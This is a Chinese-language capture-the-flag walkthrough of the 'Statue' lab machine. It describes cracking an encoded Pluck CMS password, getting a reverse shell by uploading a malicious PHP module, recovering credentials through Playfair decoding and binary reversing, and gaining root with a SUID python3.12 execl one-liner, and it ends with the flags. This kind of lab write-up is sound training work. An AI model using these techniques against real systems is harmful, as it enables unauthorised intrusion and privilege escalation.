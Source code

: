 # Statue

2025.03.03 https://thehackerslabs.com/statue/

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问 80 可以 Index 目录，但是空目录。将 statue.thl 添加到 hosts。

web 目录扫描，发现登陆页面 http://statue.thl/login.php 版本 pluck 4.7.18 ， 有 RCE 漏洞，但是需要密码。

发现 http://statue.thl/README.md 显示的是 base64，经过 17 次 base 解码，得到 fideicomiso 就是上面 cms 的密码，http://statue.thl/admin.php?action=installmodule 在这个页面上上传 zip 包，里面是 php shell 反弹文件（shell 的文件名和 zip 包的文件名保持一致），上传成功后，就在 kali 上得到了反弹的 shell。

访问下面这个 url 也可以触发反弹:

```
http://statue.thl/data/modules/8888/8888.php
```

发现 /var/www/Charles-Wheatstone/pass.txt:

```
bash-5.2$ cat /var/www/Charles-Wheatstone/pass.txt
Pass KIBPKSAFMTOIQL

Key Vm0xd1MyUXhVWGhYV0d4VFlUSm9WbGx0ZUV0V01XeHpXa2M1YWxadFVuaFZNVkpUVlVaYVZrNVlW
bFpTYkVZelZUTmtkbEJSYnowSwo=
```

将 Key 经过 7 次 base64 解码得到 guardar ，同时发现 Charles-Wheatstone 发明了 Playfair cipher 加密方法，经过 Playfair cipher 解密后 http://www.online.crypto-it.net/eng/playfair.html 得到 INCOMPRENSIBLE 要将密码转换成小写 incomprensible 成功切换到 charles。

在 home 目录中查看一下这个程序的可见字符串，juan 是用户名，进行逆向，发现 generador 可能是密码：

```
s = "juan";
var_28h = "generador";
encrypt_decrypt("juan", (int64_t)&var_30h);
encrypt_decrypt(var_28h, (int64_t)&var_38h);
```

使用 切换到 juan，拿到了 user flag：

```
juan@TheHackersLabs-Statue:~$ cat user.txt
42d6174fddbf1ff96b645cd7a8f6d270
```

sudo -l 显示 (ALL) NOPASSWD: ALL 可以直接提权到 root。

这里也可以直接提权，发现 suid 程序 /usr/bin/python3.12 直接提权到 root：

```
bash-5.2$ /usr/bin/python3.12 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# cd /home
# cd juan
# ls
binario  user.txt
# cat user.txt
42d6174fddbf1ff96b645cd7a8f6d270

# cd /root
# ls
root.txt
# cat root.txt
0284c6ac58cb47bb52e427007beee58e0132bf71
```
